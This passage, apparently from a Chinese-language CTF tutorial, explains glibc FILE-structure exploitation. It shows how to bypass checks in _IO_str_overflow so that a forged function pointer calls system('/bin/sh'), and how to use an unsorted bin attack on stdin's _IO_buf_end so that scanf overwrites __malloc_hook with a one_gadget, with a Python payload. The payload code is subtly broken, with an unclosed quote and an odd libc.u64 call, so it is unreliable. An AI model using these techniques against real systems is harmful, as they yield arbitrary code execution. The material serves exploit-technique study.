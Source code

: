 ```c
    v4 = fp->_IO_write_ptr;
  }
  v6 = (char *)fp->_IO_buf_end - (char *)fp->_IO_buf_base
  if ( (char *)v4 - (char *)fp->_IO_write_base >= v6 + (a2 == -1) )
  {
    if ( v2 & 1 )
      return 0xFFFFFFFFLL;
    v7 = 2 * v6 + 100;
    if ( v6 > v7 )
      return 0xFFFFFFFFLL;
    v8 = ((__int64 (__fastcall *)(unsigned __int64)) fp + 0xE0)(2 * v6 + 100); // call
    v9 = v8;
    .........
  }
  .......
  .......
}
```

来看看要绕过的地方

`fp->_flags & 8` 得为0，`(fp->_flags & 0xC00) == 0x400` 得为0 , `fp->_flags & 1` 得为0, 所以我这里就将`fp->_flags`设置为0 ； 并设置`fp->_IO_write_ptr - fp->_IO_write_base > fp->_IO_buf_end - fp->_IO_buf_base`

这样我们才能够绕过检查，来到函数调用`(fp + 0xE0)(2 * v6 + 100)`也就是 `(fp + 0xE0)(2 * (fp->_IO_buf_end - fp->_IO_buf_base) + 100)`

我们可以将 `fp + 0x E0`设置成 `system`函数地址 ,`fp->_IO_buf_base`设置成0，`fp->_IO_buf_end`设置成 `(binsh_addr-100)/2`这样就设置了system参数，`fp->_IO_write_ptr`设置成一个很大的正值

这里有个坑，就是`(binsh_addr-100)/2`, 当`/bin/sh`地址存在于libc中，它/2再*2 若是除不尽有余数的话 会影响最后的参数地址，我们为了避免这种情况我们尽量在堆内存中填入`"/bin/sh\x00"`, 因为堆内存往往都是2的倍数对齐。

## 利用_IO_buf_end实现write

有条件的话我们可修改`_IO_2_1_stdin_`的 `_IO_buf_base` 与 `_IO_buf_end `,这样在执行scanf读取数据到缓冲区时，就可以写入东西到`_IO_buf_base`

常见的利用方式就是，利用 unsorted bin attack 去改写file结构体中的某些成员，比如_IO_2_1_stdin_ 中的 _IO_buf_end，这样在 _IO_buf_base 和_IO_buf_end(main_arena+0x58) 存在 __malloc_hook，可以利用scanf函数读取数据填充到该区域，注意尽量不要破坏已有数据。

scanf读取的payload如下：

```python
def get_stdin_lock_offset(self):
      IO_2_1_stdin = libc.sym['_IO_2_1_stdin_']
      lock_stdin_offset = 0x88
      return libc.u64(IO_2_1_stdin+lock_stdin_offset)

payload = "\x00"*5
payload += p64(libc_base + get_stdin_lock_offset())
payload += p64(0) * 9
payload += p64(libc_base + libc.sym['_IO_file_jumps'])
payload += "\x00" * (libc.sym['__malloc_hook'] - libc.sym['_IO_2_1_stdin_] - 0xe0) # 0xe0 is sizeof file plus struct
payload += p64(one_gadget)
```

